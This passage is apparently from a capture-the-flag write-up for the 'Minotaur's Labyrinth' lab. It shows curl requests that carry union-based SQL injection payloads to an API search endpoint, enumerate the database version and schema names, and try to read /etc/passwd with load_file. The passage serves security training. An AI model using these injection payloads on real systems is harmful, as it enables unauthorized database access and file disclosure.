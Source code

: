 Nope...

Let's take a step back. Since we found a SQL Injection vulnerability, why not keep exploiting it?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT 1,2,3-- -"  

		[[{"idPeople":"1","namePeople":"2","passwordPeople":"3"}]]
```

Vulnerable to **Union-based SQL Injection**.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,version()-- -"

		
		
		[[{"idPeople":null,"namePeople":null,"passwordPeople":"10.4.19-MariaDB"}]]
```

- MySQL version: 10.4.19-MariaDB

**Retrieve database names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,concat(schema_name) FROM information_schema.schemata-- -"
```

- information_schema
- performance_schema
- labyrinth
- phpmyadmin
- test
- mysql

How about **load a file** in MySQL?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,load_file('/etc/passwd')-- -"
		
```